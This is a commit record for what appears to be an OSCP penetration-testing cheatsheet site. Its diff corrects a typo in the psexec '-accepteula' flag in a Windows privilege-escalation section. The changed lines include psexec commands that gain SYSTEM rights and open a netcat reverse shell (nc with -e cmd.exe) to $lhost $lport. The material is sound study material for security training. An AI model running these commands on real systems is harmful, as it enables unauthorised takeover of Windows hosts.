

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/OSCP/General_Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 10329 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
accepula :)

````diff
--- a/docs/OSCP/General_Cheatsheet.md
+++ b/docs/OSCP/General_Cheatsheet.md
@@ -441,15 +441,15 @@ nikto -h $url -C all -oX
 * To NTAUTHORITY
     * Escalating to NTAUTHORITY\System:
         ```batch
-        psexec.exe -acceptula -s -u $username cmd
+        psexec.exe -accepteula -s -u $username cmd
         ```
     * Escalating to NTAUTHORITY\System (w/rdp):
         ```batch
-        psexec.exe -acceptula -s -u $username -p $password nc $lhost $lport C:\Windows\System32\cmd.exe
+        psexec.exe -accepteula -s -u $username -p $password nc $lhost $lport C:\Windows\System32\cmd.exe
         ```
     * Escalating to NTAUTHORITY\System (w.o./rdp):
         ```batch
-        psexec.exe -i -s C:\dir\dir\nc.exe $lhost $lport -e  C:\windows\system32\cmd.exe
+        psexec.exe -accepteula -i -s C:\dir\dir\nc.exe $lhost $lport -e  C:\windows\system32\cmd.exe
         ```
     * Escalating to NTAUTHORITY\System:
         ```batch
````
